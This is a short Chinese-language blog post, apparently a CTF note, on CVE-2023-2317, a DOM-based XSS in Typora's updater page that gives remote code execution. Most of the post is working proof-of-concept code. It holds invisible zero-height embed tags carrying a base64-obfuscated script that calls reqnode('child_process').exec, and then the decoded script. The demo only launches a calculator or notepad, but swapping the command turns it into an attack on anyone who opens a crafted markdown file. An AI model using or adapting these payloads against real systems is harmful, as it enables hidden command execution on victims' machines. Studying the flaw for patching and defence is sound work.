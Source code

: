 ```yaml
---
title: CVE-2023-2317 Typora远程代码执行漏洞
date: 2023-08-27 14:19:49
categories: CTF
tags: [CVE]
---
```


> [CVE-2023-2317 Typora远程代码执行漏洞](https://mp.weixin.qq.com/s/hMMqhVxx8YBokNrSM-__fQ)
>
> [CVE-2023-2971Typora Local File Disclosure (Patch Bypass)](https://www.ctfiot.com/131732.html)

 Windows和Linux版本1.6.7之前的Typora中的updater/update.html中存在基于DOM的XSS，该漏洞允许通过加载特制的markdown文件从而使得执行任意JavaScript代码。如果用户打开恶意markdown文件或者从恶意网页复制文本并将其粘贴到Typora，通过在＜embed＞标签中引用update.html，则可以利用此漏洞，此外，攻击者可以使用特权接口reqnode访问节点模块child_process并执行任意系统命令。 



在Typora中嵌入下面的两个标签，渲染后人眼无法看到任何内容。

```xml
<embed style="height:0;" src="typora://app/typemark/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ2NhbGMnLCBMaW51eDogJ2dub21lLWNhbGN1bGF0b3IgLWUgIlR5cG9yYSBSQ0UgUG9DIid9KVtuYXZpZ2F0b3IucGxhdGZvcm0uc3Vic3RyKDAsNSldKQ=='))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]">

    reqnode('child_process').exec(({Win32: 'calc', Linux: 'gnome-calculator -e "Typora RCE PoC"'})[navigator.platform.substr(0,5)])
<embed style="height:0;" src="typora://app/typemark/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ25vdGVwYWQgd3d3LmV4cHBvYy5vcmcnLCBMaW51eDogJ2dub21lLWNhbGN1bGF0b3IgLWUgIlR5cG9yYSBSQ0UgUG9DIid9KVtuYXZpZ2F0b3IucGxhdGZvcm0uc3Vic3RyKDAsNSldKQ=='))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]">

    reqnode('child_process').exec(({Win32: 'notepad www.exppoc.org', Linux: 'gnome-calculator -e "Typora RCE PoC"'})[navigator.platform.substr(0,5)])
```

其中，

 %22 :"

 %2f :/

 %3c :<

base64编码的内容为：

```
reqnode('child_process').exec(
({Win32: 'calc', Linux: 'gnome-calculator -e "Typora RCE PoC"'})
[navigator.platform.substr(0,5)])
reqnode('child_process').exec(
({Win32: 'notepad www.exppoc.org', Linux: 'gnome-calculator -e "Typora RCE PoC"'})
[navigator.platform.substr(0,5)])
```
